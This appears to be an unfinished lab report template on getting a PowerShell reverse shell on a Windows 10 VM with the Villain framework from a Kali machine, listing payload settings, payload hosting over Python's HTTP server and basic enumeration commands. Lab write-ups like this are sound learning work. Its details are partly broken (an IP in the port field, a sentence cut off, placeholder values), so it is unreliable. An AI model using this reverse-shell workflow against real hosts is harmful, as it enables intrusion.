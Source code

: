 # Villain Framework Reverse Shell Report

## ⚙️ Setup Info
- Payload: `windows/reverse_tcp/powershell`
- LHOST: 192.168.56.1
- LPORT: 192.168.56.101

## 🔁 Payload Delivery Method
- he payload  was hosted on the Kali attacker machine via Python’s built-in HTTP server (python3 -m http.server 8000).
On the Windows 10 target VM, PowerShell 

## 🖥️ Captured Info
- Hostname: _value_
- IP Address: _value_
- User: _value_

## 🔎 Enumeration Performed
```powershell
whoami
ipconfig
systeminfo